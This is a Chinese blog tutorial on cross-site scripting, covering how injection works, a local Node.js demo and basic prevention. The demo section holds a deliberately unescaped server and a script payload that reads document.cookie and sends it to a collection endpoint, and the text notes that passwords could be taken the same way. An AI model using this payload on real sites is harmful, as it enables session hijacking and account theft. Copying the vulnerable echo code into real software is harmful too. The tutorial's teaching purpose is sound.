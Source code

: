 ```yaml
---
title: XSS 攻击原理、实战、预防
date: 2017-12-17 21:32:34
categories:
- 运维
tags:
- 安全
- XSS攻击
---
```


```
目录：
1. XSS 攻击原理——脚本注入，如何注入？
2. XSS 攻击实战 —— node 模拟服务端提供网站
3. XSS 如何预防
```

# 原理

常见攻击场景：在论坛或博客的下方经常会有留言功能，输入内容：`测试数据`，留言内容会被一个 h 标签包裹，F12 控制台会打印：

![留言数据](http://upload-images.jianshu.io/upload_images/6693922-1d300716e748d8f8.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

现在在下方留言 `测试数据</h><script>alert('xss test')</script><h>` ，F12 控制台可以看到我们自己写的脚本通过简单伪装就被植入到该网站，关键是直接看页面压根看不出啥变化。

![XSS 攻击](http://upload-images.jianshu.io/upload_images/6693922-dd296003678da83a.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

这里的脚本比较简单，如果对脚本稍加修改，比如自执行函数，页面打开时自动运行；让脚本会获取 [浏览器保存的用户登录密码](chrome://settings/passwords)，再通过一些手段发送给攻击者，那么攻击者就成功盗取用户账号。

**举个栗子**：假设简书上上某一篇文章下方评论里被攻击者注入了攻击脚本，其它用户只要打开这篇文章，攻击脚本自动执行，将打开该文章的用户身份信息发送给攻击者。那么攻击者就可以使用当前登录用户的简书账号密码去做坏事了.......

# 实战

使用 node 作为服务器提供论坛下方评论功能，模拟 XSS 攻击过程。

假设你计算机安装了 node 环境，拷贝下方内容，保存为 index.js。`node index.js` 运行服务，在浏览器输入 `localhost:3000/` 回车。

```
// index.js
const http = require('http');
const fs = require('fs');
const url = require('url');

const server = http.createServer(function (req, res) {
    if (req.url === '/favicon.ico') {
        return;
    }
    const parseUrl = url.parse(req.url, true);

    console.log('>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>')
    console.log(parseUrl)

	// 路由1 /uploadForm	提交表单处理方法，在页面显示刚才表单内填写的内容
	// 路由2 /xssattack		xss 攻击接收浏览器发来的 cookie 接口
	// 路由3 /  			返回一个表单
    if (parseUrl.pathname === '/uploadForm') {
        res.writeHead(200, {'content-Type':'text/html;charset=UTF-8'})
        const username = parseUrl.query.username;
        res.write(`<h>${username}</h>`);
        res.end();
    } else if (parseUrl.pathname === '/xssattack') {
        res.writeHead(200, {'content-Type':'text/html;charset=UTF-8'})
        const pw = parseUrl.query.pw;
        res.write(`i received message：${pw}`)
        res.end();
    } else {
		res.writeHead(200, {'content-Type':'text/html;charset=UTF-8', 'Set-Cookie': 'myCookie=test'})
		res.write(`
			<form method="get" action="/uploadForm">
				<input type="text" style="width: 600px;" placeholder="输入用户名" name="username">
				<button type="submit">提交</button>
			</form>
		`)
		res.end();
	}
});

server.listen(3000, function () {
    console.log('server is starting on port 3000');
});
```

该服务提供了三个接口。

- `localhost:3000/`  node 服务器返回一个表单页面；
- `localhost:3000/uploadForm` 表单提交按钮处理方法，将表单文本框中内容打印到页面上；
- `localhost:3000/xssattack` 攻击脚本获取到当前登录用户的身份信息，如账号密码，或者 cookie 等，发送到攻击者自己的服务器上。

这里提供一份攻击脚本，作用是获取当前登录用户的 cookie，然后发送给攻击者自己服务器上某个接口。直接复制内容到表单文本框中。

```
测试数据</h><script>(function () {var str = document.cookie;var a =document.createElement('a');a.setAttribute('id', 'xxlkjxljklxjklfasdf');a.href='http://localhost:3000/xssattack?cookie='+str;document.body.appendChild(a);document.getElementById('xxlkjxljklxjklfasdf').click();})()</script><h>
```

攻击脚本源码（仅供参考，为什么获取 cookie 不直接获取账号密码，以及使用 a 标签跳转的方式在浏览器地址栏会暴露等等问题，这里都不做解释，这里仅是模拟 XSS 攻击的过程）：
```
// 攻击脚本自执行函数：获取 cookie，发送给攻击者服务器 localhost:3000/xssattack
<script>
(function () {
    var str = document.cookie;
    var a =document.createElement('a');
    a.setAttribute('id', 'xxlkjxljklxjklfasdf')
    a.href='http://localhost:3000/xssattack?cookie='+str
    document.body.appendChild(a);
    document.getElementById('xxlkjxljklxjklfasdf').click()
})()   
</script>   
```

在表单中输入包含注入脚本的伪装评论：

![表单中输入脚本代码](http://upload-images.jianshu.io/upload_images/6693922-b115cb07bc747559.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

点击提交，在终端可以看到下方打印消息。
```
>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>
Url {
  protocol: null,
  slashes: null,
  auth: null,
  host: null,
  port: null,
  hostname: null,
  hash: null,
  search: '?cookie=myCookie=test',
  query: { cookie: 'myCookie=test' },
  pathname: '/xssattack',
  path: '/xssattack?cookie=myCookie=test',
  href: '/xssattack?cookie=myCookie=test' }
```

验证浏览器中 cookie 是否正确：

![浏览器控制台打印 Cookie](http://upload-images.jianshu.io/upload_images/6693922-2bcd4ac1b14afa4b.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

到此，攻击者就获取到登录用户的 Cookie，用了 cookie 就可以冒充当前登录用户去做些坏事了。当然这里获取账号密码更直接，在发送的使用邮件或其他方式都可以，保证隐蔽性。

# 预防

XSS 攻击如此神出鬼没，关键是在页面上看不出任何差异，如何防范它呢？

## 对于普通用户

普通用户没有编程基础，不太能识别 XSS 攻击，建议使用谷歌浏览器，谷歌浏览器自带检测网站 XSS 攻击功能，如果谷歌浏览器检测到您当前访问的页面存在 XSS 攻击，不会运行注入脚本，会报错提示：

   ![谷歌浏览器自带 XSS 检测功能](http://upload-images.jianshu.io/upload_images/6693922-a2d6cfae1a50e90a.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

我在火狐浏览器也做了下测试，发现火狐并不会检测 XSS 攻击脚本。（这里不是黑火狐，目前火狐主打的是访问速度，对安全这块可能并没有太多关注）

## 对于网站站长
虽然 XSS 攻击并不会直接对网站造成影响，但是它总是盗取登录该网站用户的账号密码，搞不好哪天你的用户烦心了，不用这个网站了，网站丢失用户量是件很可怕的事。

- **预防一：对于评论、文章内容等做转码操作**

    将评论、文章等取数据内容做转码，将 `<` 转码为 `&lt;`，`>` 转码为 `&gt;`，此时在浏览器中就可以看到注入脚本无处可藏，显露原型了。这也是目前使用比较广泛的一种，楼主测试了一下 `码云` 是否有 XSS 漏洞，发现它就是这种预防措施的。

    ![对评论内容做 html 转码](http://upload-images.jianshu.io/upload_images/6693922-456bb4224d061bca.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

- **预防二：对表单内容做长度校验**

    有些前端开发人员不注意安全，表单内文本框或文本域都不做长度校验，这就存在 XSS 攻击风险。上面也提到注入脚本一般长度很长，聪明一些的攻击者会将注入脚本进行压缩缩短长度。如果你的文本框长度只允许输入 10 个字符，嫩它注入脚本再厉害也是无计可施的。

    ![image.png](http://upload-images.jianshu.io/upload_images/6693922-34a814aac5162a21.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)






 


